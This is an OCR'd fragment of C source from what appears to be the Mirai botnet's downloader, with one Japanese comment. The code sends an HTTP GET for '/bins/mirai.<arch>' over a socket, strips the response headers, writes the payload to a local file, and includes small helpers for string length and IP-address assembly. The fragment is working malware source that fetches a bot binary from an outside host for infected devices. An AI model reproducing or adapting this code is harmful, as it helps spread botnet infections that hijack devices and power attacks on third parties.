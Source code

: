 ```c
    if (write(sfd, "GET /bins/mirai." BOT_ARCH " HTTP/1.0\r\n\r\n", 16 + arch_strlen + 13) != (16 + arch_strlen + 13))
    {
#ifdef DEBUG
        printf("Failed to send get request.\n");
#endif

        __exit(3);
    }

#ifdef DEBUG
    printf("Started header parse...\n");
#endif

    while (header_parser != 0x0d0a0d0a)
    {
        char ch;
        int ret = read(sfd, &ch, 1);

        if (ret != 1)
            __exit(4);
        header_parser = (header_parser << 8) | ch;
    }

#ifdef DEBUG
    printf("Finished receiving HTTP header\n");
#endif

// ファイルのダウンロード処理
    while (1)
    {
        int ret = read(sfd, recvbuf, sizeof (recvbuf));

        if (ret <= 0)
            break;
        write(ffd, recvbuf, ret);
    }

    close(sfd);
    close(ffd);
    write(STDOUT, DOWNLOAD_MSG, DOWNLOAD_MSG_LEN);
    __exit(5);
}

int sstrlen(char *str)
{
    int c = 0;

    while (*str++ != 0)
        c++;
    return c;
}

unsigned int utils_inet_addr(unsigned char one, unsigned char two, unsigned char three, unsigned char four)
{
    unsigned long ip = 0;

    ip |= (one << 24);
    ip |= (two << 16);
    ip |= (three << 8);
    ip |= (four << 0);
    return HTONL(ip);
```